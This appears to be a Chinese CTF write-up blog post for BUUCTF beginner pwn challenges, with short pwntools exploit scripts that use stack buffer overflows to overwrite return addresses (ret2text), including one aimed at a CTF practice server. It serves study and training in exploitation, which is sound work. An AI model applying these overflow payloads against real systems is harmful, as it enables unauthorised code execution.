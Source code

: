 ```yaml
---
title: BUUCTF wp
date: 2024-05-29 23:39:06
---
```


> BUUCTF的部分wp
> 后面的有时间再做

# pwn
## test_your_nc
### 思路
简单题，直接nc

## rip
### 思路
程序中给了后门，直接ret2text，注意一下栈平衡

### exp
```python
from pwn import *

#p = remote("node5.buuoj.cn",29672)
p = process("pwn1")

gdb.attach(p)

backdoor = 0x401186
ret = 0x401185

payload = b'a'*15+b'b'*8+p64(backdoor)

p.sendline(payload)

p.interactive()
```

## warmup_csaw_2016
### 思路
ret2text简单题

### exp
```python
from pwn import *

p = remote("node5.buuoj.cn",25110)
#p = process("./warmup_csaw_2016")

#gdb.attach(p)

p.recvuntil(b"WOW:")
back = p.recv(8)
back = int(back,16)
payload = b'a'*(0x40+0x8)+p64(back)

p.sendline(payload)
p.interactive()
```